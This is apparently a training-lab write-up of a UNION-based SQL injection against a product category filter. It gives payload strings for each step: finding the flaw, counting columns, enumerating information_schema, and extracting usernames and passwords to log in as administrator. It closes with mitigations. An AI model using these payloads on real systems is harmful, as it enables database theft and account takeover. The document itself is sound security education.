







# SQL Injection – UNION Attack (Data Extraction)

## Lab Overview

This lab demonstrates a **SQL Injection vulnerability** in a product category filter.  
The objective is to exploit the vulnerability using a **UNION-based SQL Injection attack** to retrieve sensitive data (user credentials) from the database.

---

## Objective

- Identify SQL Injection vulnerability
- Determine number of columns
- Extract database structure (tables & columns)
- Retrieve **username and password**
- Login as **administrator** to solve the lab

---
## CVSS Score

**CVSS v3.1 Score:** 9.8 (Critical)

This vulnerability allows an attacker to extract sensitive data such as usernames and passwords from the database without authentication, leading to complete compromise of confidentiality and partial impact on integrity.
---

## Tools Used

- Burp Suite (Proxy & Repeater)
- Web Browser

---

## Step-by-Step Exploitation

---

### Step 1: Analyze Lab & Intercept Request

- Accessed the lab and navigated through product categories
- Intercepted request using Burp Suite Proxy

📸 Screenshot:

---

### Step 2: Identify SQL Injection Point

- Observed `category` parameter in request
- Tested with `'` to check for SQL error

Example:
---
category=Gifts'
---

- Confirmed SQL Injection vulnerability

---

### Step 3: Determine Number of Columns

Used `ORDER BY` technique:
---
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
---

- `ORDER BY 1` → Works  
- `ORDER BY 2` → Works  
- `ORDER BY 3` → Error  

 Conclusion: **2 columns present**

📸 Screenshot:

---

### 🔗 Step 4: Confirm UNION Injection
---
' UNION SELECT NULL,NULL--
---

- Page loaded successfully → UNION query works

📸 Screenshot:

---

###  Step 5: Extract Table Names
---
' UNION SELECT NULL,table_name FROM information_schema.tables--
---

- Identified table:
---
users
---

📸 Screenshot:

---

###  Step 6: Extract Column Names
---
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'--
---

- Discovered columns:
  - username
  - password
  - email

📸 Screenshot:

---

###  Step 7: Extract User Credentials
---
' UNION SELECT username,password FROM users--
---

- Retrieved credentials including administrator

📸 Screenshot:

---

###  Step 8: Login as Administrator

- Used extracted credentials to login
- Successfully accessed administrator account

📸 Screenshot:

---

##  Result

- Successfully exploited SQL Injection vulnerability
- Extracted sensitive data (user credentials)
- Logged in as administrator
- Lab completed successfully

---

##  Key Learnings

- UNION-based SQL Injection allows data extraction from other tables
- Importance of identifying column count before UNION attack
- Use of `information_schema` to enumerate database structure
- Real-world impact: unauthorized access to sensitive data

---

##  Mitigation Strategies

- Use **prepared statements / parameterized queries**
- Implement **input validation and sanitization**
- Apply **least privilege principle** on database
- Use **Web Application Firewall (WAF)**

---

##  Conclusion

This lab provided practical understanding of how attackers exploit SQL Injection vulnerabilities to extract sensitive information. It highlights the importance of secure coding practices and proper input handling to prevent such attacks.

---